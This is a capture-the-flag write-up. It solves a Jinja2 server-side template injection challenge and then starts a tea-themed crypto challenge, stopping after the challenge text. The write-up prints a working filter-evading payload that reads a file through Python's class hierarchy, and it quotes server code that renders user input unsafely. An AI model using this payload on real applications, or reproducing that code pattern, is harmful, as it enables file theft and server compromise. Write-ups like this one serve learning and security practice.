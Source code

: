## wafer

Challenge description:

> This challenge leaves me a salty, sour taste.
> 

No files are provided. The challenge greets us with:

```
Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1291, in render
    self.environment.handle_exception()
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<template>", line 1, in top-level template code
jinja2.exceptions.UndefinedError: 'GET' is undefined
```

So it is clear, that this is a Sever Site Template Injection (SSTI) challenge. Sending `2+2` reflects us `4`. First, we try to send `self.__dict__` to find out what we have to work with. Doing this, we notice that `self` and underscore are blocked inputs. But, there is an easy way to work around that: `seselflf` as input allows us to write `self`, because the removal is only done once. The underscore can be hex-encoded and is therefore not filtered. Starting from self, we can get the base class, which is object: `self.__class__.__base__`. From there we go down in the inheritance tree to go to FileIO and use this to leak the flag file:

```python
seselflf['\\x5f\\x5fclass\\x5f\\x5f']['\\x5f\\x5fbase\\x5f\\x5f']['\\x5f\\x5fsubclasses\\x5f\\x5f']()[101]['\\x5f\\x5fsubclasses\\x5f\\x5f']()[0]['\\x5f\\x5fsubclasses\\x5f\\x5f']()[0]('flag.txt').read()
```

After that, we also leaked the source code and notice that we could have done things simpler, but that is always the thing with black box challenges.

```python
import subprocess
from jinja2 import Template
blacklist = ["config", "self", "_", '"']
inputval = input()
for x in blacklist:
    if x in blacklist:
        inputval = inputval.replace(x, "")
print(Template("{{"+inputval+"}}").render())
```

## cup-of-tea

Challenge description:

> For my friend a cup of Tea and a wonderful message: D0A4AE4DCC99E368BABD66996D67B88159ABE2D022B0AD78F1D69A6EB1E81CF3589B3EFE994005D6A9DE9DB2FD3C44B77628D2316AAC2229E938EC932BE42220DD6D1D914655820A43C09E2236993A8D
> 
